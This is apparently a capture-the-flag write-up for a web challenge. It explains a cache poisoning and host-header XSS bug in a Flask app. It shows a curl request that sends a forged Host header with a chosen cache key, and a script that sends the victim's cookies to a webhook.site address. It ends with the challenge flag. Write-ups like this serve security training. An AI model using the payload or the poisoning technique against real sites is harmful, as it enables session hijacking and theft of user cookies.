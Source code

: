 Solve
There is a cache poisoning and an xss on the host header due to these lines : 
@cache.cached(timeout=60, make_cache_key=make_key)
<script src="http://{request.headers.get('Host')}/script/main.js"></script>

If we take a look at the make_key function :

def make_key():
    cachekey = request.args.get("cachekey")
    return cachekey if cachekey else ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(8))


So we have to use a GET parameter cachekey to make our self xss exploitable.

Send this curl request to change the host where the script is loaded and use a custom cache key for cache poisoning :

$ curl "http://challenge.midnightflag.fr:10110/?cachekey=worty" -H "Host: attacker.fr"


On the server, host the following script at /script/main.js:

fetch("https://webhook.site/[UUID]/?data="+btoa(document.cookie));

Flag
MCTF{c4ch3_p0is0ning_t0_xss}
